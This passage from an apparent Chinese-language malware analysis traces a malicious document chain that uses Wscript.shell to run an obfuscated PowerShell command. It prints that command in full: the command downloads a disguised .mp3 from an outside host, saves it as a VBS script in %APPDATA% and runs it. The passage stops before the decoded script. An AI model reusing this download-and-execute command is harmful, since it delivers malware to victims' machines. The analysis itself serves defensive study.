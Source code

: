 然后解密k为Wscript.shell

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f9aabaa7dd4f4478.png)

最后通过Wscript.shell执行我们上面看到的powershell指令。

### <a class="reference-link" name="powershell%E4%BB%A3%E7%A0%81%E5%88%86%E6%9E%90"></a>powershell代码分析

现在我们来分析一下这段powershell指令。

为了方便阅读，我将这段powershell分段显示

```
"Powershell $TRP='*.*-EX'.replace('*.*-','I'); 
sal Master $TRP;
'(&amp;(GCM'+' *W-O*)'+ 'Net.'+'Web'+'Cli'+'ent)'
+'.Dow'+'nl'+'oad'+'Fil'+'e(''https://gritodopovo.com.br/natalidade/macro02.mp3'',
$env:APPDATA+''''+''armagedon.vbs'')'|Master; start-process($en"
```

此段powershell的代码非常简单，就是通过一些字符串的拼接和替换，执行一条WebCLient.DownloadFile hxxps[:]//gritodopovo.com.br/natalidade/macro02.mp3 的指令下载macro02.mp3文件并保存到本地的%APPDATA%目录下，保存名为armagedon.vbs，接着程序通过start-process的方式启动该vbs脚本。

### <a class="reference-link" name="Macro02.mp3%E5%88%86%E6%9E%90(armagedon.vbs)"></a>Macro02.mp3分析(armagedon.vbs)

还是使用之前的方式，我们首先通过安全的网络尝试对该地址进行请求，可以看到的确有一个”mp3”文件：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01d59e561df4eb1c53.png)

打开开发者工具，找到NetWork，重新请求，可以看到mp3文件的返回值是206，206的返回值表示该文件是需要用户交互才能下载的文件，所以我们直接选中该文件，然后右键，选择 copy -&gt; copy response 复制该段数据：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01d1a81f3a15d72c8b.png)

copy的值是一段base64编码的数据，我们直接通过在线工具对该段base64数据进行解码，可以看到，解码之后的确是一段VBS脚本代码:

```
```